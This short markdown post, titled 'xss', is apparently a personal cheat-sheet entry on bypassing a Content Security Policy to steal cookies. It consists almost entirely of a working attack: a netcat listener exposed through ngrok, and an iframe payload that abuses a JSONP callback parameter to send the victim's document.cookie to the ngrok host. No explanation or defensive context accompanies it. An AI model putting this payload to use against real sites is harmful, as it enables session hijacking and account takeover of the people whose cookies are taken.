 ```yaml
---
layout: post
title: "xss"
keywords: "xss, iframe, cookie"
---
```

#### Bypass CSP and steal cookie using iframe


```
# Listener
nc -klnvp 9000
ngrok http 9000

# XSS
<iframe src="http://localhost:1337/list?callback=window.parent.location.href%3D`http://4ea69d0ff8e3.ngrok.io?c=%24%7Bdocument.cookie%7D`;display"></iframe>
```
